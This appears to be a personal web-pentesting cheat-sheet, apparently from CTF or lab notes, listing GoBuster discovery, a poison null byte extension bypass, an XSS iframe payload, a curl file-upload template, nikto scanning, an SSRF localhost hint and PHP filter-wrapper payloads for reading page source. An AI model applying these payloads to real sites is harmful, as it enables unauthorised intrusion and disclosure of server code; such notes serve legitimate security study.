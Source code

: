 ## Discovery
[[GoBuster]]

## Reverse shell
[[Reverse Shell#Web reverse shell]]

Web stuff

Poison null byte (doesn't work with PHP major version 5)
Terminates URL. Can be used to bypass certain file extensions not being allowed. Use %200.allowedFileType after other file
`%2500`

### XSS DOM
```
<iframe src="javascript:alert(`xss`)">
```

### Curl POST
```
curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>
```

### Vulnerabilities
```
nikto -h <IP>
```

If URL has proxy in search try `localhost` or `127.0.0.1`
### PHP
Actual source code of the page encoded using base64:
`php://filter/convert.base64-encode/resource=index`
If there is a filetype filter:
`php://filter/convert.base64-encode/cat/resource=index`

